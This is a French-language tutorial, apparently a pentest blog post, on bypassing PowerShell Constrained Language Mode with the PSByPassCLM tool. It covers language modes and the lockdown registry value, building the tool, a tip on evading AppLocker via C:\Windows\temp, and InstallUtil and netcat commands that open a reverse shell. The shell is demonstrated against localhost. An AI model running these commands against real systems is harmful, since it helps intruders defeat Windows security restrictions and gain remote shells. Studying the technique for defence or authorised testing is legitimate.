

Introduction
----
Dans ce cours à but éducatif nous allons voir `COMMENT BYPASS CONSTRAINED LANGUAGE MODE (CLM)` ou en français (Mode de langage contraint) sous PowerShell grâce à l'outil `PSByPassCLM`, téléchargeable sur [GITHUB](https://github.com/padovah4ck/PSByPassCLM). C'est un outil très utile en `PENTEST` et je devais absolument vous présenter ça.  

Cet outil permet d'avoir beaucoup plus de permissions dans une session `PowerShell` et exécuter des commandes comme par exemple télécharger des fichiers sur un système à distance et bien d'autre chose.  

CLM
----
Avant d'aller vers le technique, il faut avant tout comprendre le système `CLM`. Il s’agit d’une restriction qui vous empêche d’abuser de nombreuses fonctionnalités de powershell et de vous en servir pour énumérer, augmenter les privilèges, organiser des charges utiles et une tonne d’autres éléments. C'est `AppLocker` qui limite tout et bloque les accès, AppLocker c'est un système pour côntrolez des applications et de gérer il est disponible sur `Windows Server` et `Windows 10`.

Il y'a `4 modes` en particulier en PowerShell : 

- FullLanguage
- RestrictedLanguage
- NoLanguage 
- ConstrainedLanguage

### LANGUE COMPLÈTE (FullLanguage) :

Le mode de langue `FullLanguage` autorise tous les éléments de langue de la session. FullLanguage est le mode de langue par défaut pour les sessions par défaut sur toutes les versions de Windows, à l'exception de `Windows RT`.

### LANGUE RESTREINTE (RestrictedLanguage) :

En mode linguistique `RestrictedLanguage`, les utilisateurs peuvent exécuter des commandes (applets de commande, fonctions, commandes CIM et workflows), mais ne sont pas autorisés à utiliser des blocs de script.

### AUCUNE LANGUE (NoLanguage) :

En mode linguistique `NoLanguage`, les utilisateurs peuvent exécuter des commandes, mais ils ne peuvent utiliser aucun élément de langage dans un PowerShell.

### LANGUE CONTRAINTE (Constrained Language) :

Le mode de langage `ConstrainedLanguage` autorise toutes les cmdlets Windows et tous les éléments de langage PowerShell, mais limite les types autorisés.

CHANGER DE LANGUE/MODE
----

Il est tout à fait possible de changer de `LANGUE/MODE` depuis le registre pour assurer la sécurité, il y'a d'autre moyen également, par exemple faire avec le système `GPO` (Group Policy Object) ou en français (Stratégies de groupe) dans un environnement `Active Directory`.

Le chemin pour modifier de `LANGUE/MODE` est dans `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment`, et par défaut il y'a pas de `Valeur chaîne/REG_SZ` qui se nomme `__PSLockdownPolicy`, il faut créé une valeur qui se nomme `__PSLockdownPolicy` et il accepte seulement 4 `donnée(s)`.

Donnée ( 1 ) : Pour le `FullLanguage`.  
Donnée ( 2 ) : Pour le `RestrictedLanguage`.  
Donnée ( 3 ) : Pour le `NoLanguage`.  
Donnée ( 4 ) : Pour le `ConstrainedLanguage`  

DEMONSTRATION
----

Comme vous pouvez le constater, je suis en mode `FullLanguage`, cette fonctionnalité designe justement j'ai les permissions pour exécuter des tâches, ce qui est plutôt pas mal. La commande à exécuter pour examiner le mode de `LANGAGE` de votre session PowerShell `$ExecutionContext.SessionState` :

Mais dans certains cas assez étrange, vous pouvez percevoir ce type de chose pour éviter que les intrus exécutent n'importe quoi ou bien simplement pour la sécurité :  

Concrètement d'après l'information je suis en mode `ConstrainedLanguage`, donc impossible d'exécuter un fichier à distance, télécharger des fichiers à distance etc.. Notre but maintenant c'est de changer de mode de `LANGAGE` passer de `ConstrainedLanguage` à `FullLanguage` pour effectuer des actions sur le système avec la session PowerShell. 

## .NET

Avant de commencer les choses nous devons commencer par télécharger le framework `.NET`. Le .NET Framework est un cadriciel pouvant être utilisé par un système d'exploitation Microsoft Windows et Microsoft Windows Mobile depuis la version 5.

Commencer par ouvrir `Executer` avec la touche `WINDOWS + R` et ensuite de saisir `appwiz.cpl` et ensuite d'aller vers `Enable or disable Windows features`. Chercher ce système `.NET Framework 3.5 (inclut .NET 2.0 et 3.0)` (pour mon cas). Vous cochez la petite case et ensuite vous appuyez sur `OK` afin d'installer `.NET` sur votre ordinateur.

Vous pouvez également très bien faire avec la ligne de commande, avec l'outil `get-windowsoptionalfeature` en PowerShell ou bien avec `cmd` avec `DISM`. Il y'a de très bonne documentation sur le web, pour mieux comprendre les outils.

Documentation en PowerShell : [GET-WINDOWSOPTIONALFEATURE](https://docs.microsoft.com/en-us/powershell/module/dism/get-windowsoptionalfeature?view=win10-ps)  
Documentation en invite de commandes : [DISM](https://docs.microsoft.com/en-us/windows-hardware/manufacture/desktop/dism-image-management-command-line-options-s14)  

## Build

Allez dans les dossiers de `.NET` pour build le fichier `.sln` dans le dossier `PSByPassCLM-master`. Le dossier de `.NET` est situer dans `C:\Windows\Microsoft.NET\Framework64\v4*`.

    PS C:\Users\Administrateur> cd C:\Windows\Microsoft.NET\Framework64\v4*
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\MSBuild.exe C:\Users\Administrateur\Desktop\PSByPassCLM-master\PSBypassCLM\PsBypassCLM.sln
 
Et pendant ce temps là dans le dossier `*\PSByPassCLM-master\PSBypassCLM\PSBypassCLM\bin\Debug\PsBypassCLM` il a crée un fichier exécutable et ce fichier va nous permettre de changer de mode dans une session PowerShell.

## Reverse Shell

Donc nous arrivons presque à la fin pour effectuer notre reverse shell, nous allons utiliser l'outil `InstallUtil.exe` dans le même dossier que `MSBuild.exe`. Avant ça je vais crée un `listener` qui écoute le port `9001`.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...

Et enfin de saisir cette commande pour effectuer notre reverse shell et être en mode `FullLanguage` dans notre système PowerShell (that's cool) : 

    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=localhost /rport=9001 /U c:\windows\temp\PsBypassCLM.exe

Ah oui un détail assez important n'oublier surtout pas de mettre le fichier `PsBypassCLM.exe` dans `C:\Windows\temp\PsBypassCLM.exe` car dans certaines configuration on peut `BYPASS` le système `AppLocker`.

Et enfin pendant ce temps là dans notre `listener` j'ai accès à un shell en mode `FullLanguage` et pour pouvoir exécuter des commandes dans le système.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60002
    PS C:\Windows\System32> $ExecutionContext.SessionState.LanguageMode
    FullLanguage

CONCLUSION
----

Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, aura éclairci certaines choses. C'était indéniable de vous présenter ce système car en `PENTEST` dans les machines `Windows` ça m'est déjà arrivé et c'était nécessaire de faire un `TUTORIAL` sur ce système.
